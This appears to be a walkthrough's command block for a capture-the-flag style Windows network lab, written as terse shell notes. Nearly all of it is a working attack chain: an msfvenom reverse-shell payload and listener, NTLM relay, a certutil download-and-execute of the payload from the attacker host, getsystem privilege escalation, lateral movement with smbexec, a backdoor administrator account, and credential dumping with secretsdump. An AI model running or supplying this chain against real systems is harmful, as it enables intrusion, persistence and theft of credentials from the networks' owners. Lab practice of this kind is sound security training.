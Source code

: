 ```shell
#in attacker machine
#create payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.50.109.20 LPORT=1337 -f exe > shell.exe

msfconsole -q

use exploit/multi/handler

set payload windows/x64/meterpreter/reverse_tcp

set LHOST 10.50.109.20

set LPORT 1337

run

#in another tab
#setup ntlmrelayx
ntlmrelayx.py -t smb://10.200.112.30 -smb2support -socks

#get rdp session
#xfreerdp is not working, so we use rdesktop instead
rdesktop -u sv -p password123 10.200.112.35

#in victim cmd prompt
certutil.exe -urlcache -f http://10.50.109.20:8080/shell.exe shell.exe

shell.exe
#we get reverse shell

#on meterpreter reverse shell
getuid

getsystem
#privesc

portfwd add -R -L 0.0.0.0 -l 445 -p 445
#setup port forwarding

#config proxy settings
sudo vim /etc/proxychains4.conf
#add this line
#socks4 127.0.0.1 1080

proxychains psexec.py -no-pass HOLOLIVE/SRV-ADMIN@10.200.112.30
#this does not work, so we can try smbexec.py

proxychains smbexec.py -no-pass HOLOLIVE/SRV-ADMIN@10.200.112.30
#we get shell

net user newuser password1 /add

net localgroup Administrators /add newuser

#we can now get the flag

#in attacker machine
secretsdump.py 'HOLOLIVE/newuser:password1@10.200.112.30'
#dumps creds
```
